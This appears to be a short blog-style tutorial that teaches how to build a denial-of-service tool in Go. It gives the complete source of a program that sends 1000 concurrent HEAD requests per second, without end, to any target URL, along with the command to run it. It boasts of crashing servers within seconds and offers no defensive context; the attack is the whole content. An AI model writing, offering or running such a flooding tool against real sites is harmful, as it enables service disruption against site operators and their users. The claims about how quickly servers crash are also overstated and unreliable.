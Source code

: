 # Making A DDOS Tool With Go

Hi there today I'm going to make a simple tool for DDOS attack. And it's fully written in Golang. No additional plugin required.

## Our Attack Map:

We are going to make 1000 or more concurrent requests at once. If the server is not enough strong, it will crash within 10-15 seconds after a single attack!

## Let's Code It:

Let's dive into code, but I'm going to break the code into pieces first.

### Making A Request:

The `Request` function will send a request to the server.

```Go
func Request(uri string){
    http.Head(uri)
}
```

The `http.Head(uri)` receives only headers from a url. We don't need the content of the page. So we're not going to process further things.

## Attaaaaaaaaack!

Now we need to put the `Request` function in a loop.

```Go
func main(){
    target := os.Args[1] // the target site
    for {
        fmt.Print(".")
        for i := 0; i < 1000; i++ {
            go Request(target)
        }
        // need some rest
        time.Sleep(time.Second)
    }
}
```

Here we're sending 1000 requests to the server in every second.

And it's that much simple!

## Full Code:

```Go
package main

import (
    "fmt"
    "net/http"
    "os"
    "time"
)

func main() {
    target := os.Args[1] // the target site
    for {
        fmt.Print(".")
        for i := 0; i < 1000; i++ {
            go Request(target)
        }
        // need some rest
        time.Sleep(time.Second)
    }
}

func Request(uri string) {
    http.Head(uri)
}
```

Now save it and run with 

```TXT
$ go run main.go http://example.com
```
Now wait for 30-40 seconds after getting the `...` like output!

Voila!

We've successfully shutted down a server by a single attack :v
